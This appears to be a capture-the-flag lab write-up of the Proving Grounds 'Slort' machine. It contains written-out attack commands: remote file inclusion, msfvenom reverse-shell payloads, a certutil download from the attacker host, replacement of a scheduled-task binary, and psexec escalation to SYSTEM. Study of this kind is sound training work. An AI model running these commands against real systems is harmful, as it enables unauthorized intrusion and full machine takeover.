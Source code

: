 ```yaml
---
description: PG Practice Slort Writeup
---
```


# Slort

## Nmap

```
sudo nmap 192.168.230.53 -p- -sS -sV

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

Both port 8080 and 4443 contain the same web directory redirecting both to the /dashboard/ directory for XAMPP.

![](<../../../.gitbook/assets/image (1030).png>)

Running `dirsearch.py` against the target reveals the /site page.

```
python3 dirsearch.py -u http://192.168.230.53:8080 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url 
```

![](<../../../.gitbook/assets/image (1031) (1).png>)

The /site/index.php page:

![](<../../../.gitbook/assets/image (1032).png>)

Paying close attention to the full address of the index.php page we can see the following:

```
http://192.168.230.53:8080/site/index.php?page=main.php
```

Looking at the part index.php?page=\<Value> we can test for RFI to see if vulnerable. I created a test.txt file on my attacking machine and then hosted the directory with a `Python SimpleHTTPServer`. Then browsed to the following:

```
http://192.168.230.53:8080/site/index.php?page=http://192.168.49.230/test.txt
```

This confirms RFI:

![](<../../../.gitbook/assets/image (1033).png>)

As we know we are running PHP we can generate a PHP reverse shell with `msfvenom` in order to catch a reverse shell using the RFI.

```
msfvenom -p php/reverse_php LHOST=192.168.49.230 LPORT=21 -f raw > phpreverseshell.php
```

![](<../../../.gitbook/assets/image (1034).png>)

Host this in the same directory as the `Python SimpleHTTPServer` and ensure the listening port is set to 21. Then in the browser browse to the shell we just generated.

```
http://192.168.230.53:8080/site/index.php?page=http://192.168.49.230/phpreverseshell.php
```

![](<../../../.gitbook/assets/image (1035).png>)

Once we are connected we are running as the user rupert. Looking through the C:\ root directory we have a folder called backup. Looking at the contents within and reading info.txt we see that the note mentions `TFTP.EXE` is executed every 5 minutes.

![](<../../../.gitbook/assets/image (1036).png>)

I was able to delete `TFTP.EXE` which means we can replace it with a malicious shell. Knowing this we can generate a reverse shell with `msfvenom` and call it `TFTP.EXE`.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.230 LPORT=21 -f exe > TFTP.EXE 
```

The shell was then uploaded with `certutil.exe`.

```
certutil.exe -f -urlcache -split http://192.168.49.230/TFTP.EXE
```

![](<../../../.gitbook/assets/image (1037) (1).png>)

A `netcat` listener was set up on port 21 and after 5 minutes the `TFTP.EXE` was executed as part of the scheduled task and we receive an administrator shell.

![](<../../../.gitbook/assets/image (1038).png>)

As we are administrator we can then escalate to SYSTEM by fist changing the administrator password:

```
net user administrator Password123
```

![](<../../../.gitbook/assets/image (1039).png>)

Then using `Psexec.py` to gain shell as SYSTEM.

```
sudo python2 psexec.py /administrator:Password123@192.168.230.53 
```

![](<../../../.gitbook/assets/image (1040).png>)
